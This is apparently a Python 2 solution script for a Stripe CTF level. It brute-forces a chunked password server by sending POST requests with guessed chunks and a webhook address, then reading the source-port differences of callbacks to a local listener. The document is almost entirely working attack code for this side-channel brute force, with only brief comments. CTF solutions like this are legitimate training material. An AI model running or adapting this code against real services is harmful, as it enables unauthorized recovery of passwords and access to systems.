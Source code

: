 ``` python
import socket, ssl, time

def make_guess(request):
    try:
        p1 = get_source_port(request)
        p2 = get_source_port(request)
        return p2 - p1
    except:
        print "something bad happened, trying again"
        return make_guess(request)

def get_source_port(request):
    client = ssl.wrap_socket(socket.socket(socket.AF_INET, socket.SOCK_STREAM))
    client.connect((HOST, PORT))
    client.sendall(request)
    resp = ""
    while 1:
        data = client.recv(1024)
        if data == "0\r\n\r\n": break
    source_port1 = client.getsockname()[1]
    client.close()
    conn, addr = server.accept()
    conn.send("HTTP/1.0 200 OK\r\n")
    conn.close()
    return addr[1]


HOST = 'level08-1.stripe-ctf.com'
PORT = 443
HOST2 = 'level02-2.stripe-ctf.com'
PORT2 = 12455
server =  socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.bind(('0.0.0.0', PORT2))
server.listen(1)
guess = ""
for chunk in range(3):
    if chunk == 0:
        start = 128
    else:
        start = 0
    for i in range(start,1000):
        chunk_guess = str(i).zfill(3)
        message = '{"password": "' + guess + chunk_guess + 'X'*(12 - len(guess+chunk_guess)) + '", "webhooks": ["level02-2.stripe-ctf.com:12455"]}'
        request = 'POST /user-umqrrcvswp/ HTTP/1.1\r\nUser-Agent: curl/7.21.4 (universal-apple-darwin11.0) libcurl/7.21.4 OpenSSL/0.9.8r zlib/1.2.5\r\nHost: level08-1.stripe-ctf.com\r\nAccept: */*\r\nContent-Length: '+ str(len(message)) + '\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\n' + message
        print "Guessing (chunk " + str(chunk) + ") :" + chunk_guess
        correct = True
        for i in range(5): #fucking network jitter
            diff = make_guess(request)
            print diff
            if diff == chunk+2:
                correct = False
                break
            else:
                print "just in case lets sleep"
                time.sleep(5)
        if correct:
            print "Got Chunk:", chunk_guess
            guess += chunk_guess
            break
```